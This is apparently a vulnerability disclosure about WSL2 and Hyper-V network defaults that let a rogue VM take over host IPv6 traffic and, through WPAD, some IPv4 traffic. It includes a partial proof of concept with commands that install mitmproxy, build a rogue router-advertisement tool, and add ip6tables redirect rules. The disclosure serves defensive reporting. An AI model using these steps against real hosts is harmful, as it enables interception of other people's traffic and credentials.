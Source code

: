 7) on the node, try `curl http://www.google.com -v` again.
You should see that IPv6 was used and the response is just "ok", it came from the container.

### Microsoft WSL2

#### Summary

By default the "Hyper-V Virtual Ethernet Adapter" interfaces used for Hyper-V ('vEthernet (Default Switch)') and for WSL2 ('vEthernet (WSL)') are configured with static IPv4 but automatic IPv6, meaning any rogue Hyper-V or WSL2 VM can reconfigure the host network using DHCPv6 or IPv6 router advertisements. Using WPAD an attacker can also intercept part of the IPv4 traffic.

This is "just" an insecure default configuration, but, chained with any client RCE, this could lead to VM escape to the host.

I saw that Hyper-V does offer DHCP Guard and Router Guard settings, but couldn’t find the equivalent for WSL2.

I know that changing the default configuration can be hard, but a VM should not be able to intercept host traffic by default.

I only have access to Win10 machines so I couldn’t test any Windows server editions.

Testing was done on Microsoft Windows [Version 10.0.19041.172] / Ubuntu 18.04 WSL2

#### POC

Here follows a POC showing how a root user in Ubuntu 18.04 WSL2 can easily intercept all IPv6 traffic, and, using WPAD, part of the IPv4 traffic of the host. The same attack also works from a Hyper-V VM.

The POC uses 2 programs:

- `mitmproxy`, to receive the traffic from the host once it has been configured by WPAD,

- `rafun` to send the router advertisements and act as a DNS and an HTTP server.

1) Start a Ubuntu 18.04 WSL2 shell, become root

2) Install `mitmproxy`:
```
apt update
apt install python3-pip
pip3 install mitmproxy
```

3) Build the `rafun` binary using golang 1.13+ by downloading [rafun.go](wsl2/rafun.go) / [go.sum](wsl2/go.sum) / [go.mod](wsl2/go.mod) then using run `CGO_ENABLED=0 go build`

4) Configure an extra IPv6 on eth0:
```
ip addr add 2001:db8::1/128 dev eth0
```

5) Configure ip6tables redirect rules  to intercept IPv6 HTTP and DNS traffic
```
ip6tables -t nat -I PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-ports 80
ip6tables -t nat -I PREROUTING -i eth0 -p udp --dport 53 -j REDIRECT --to-ports 53
```
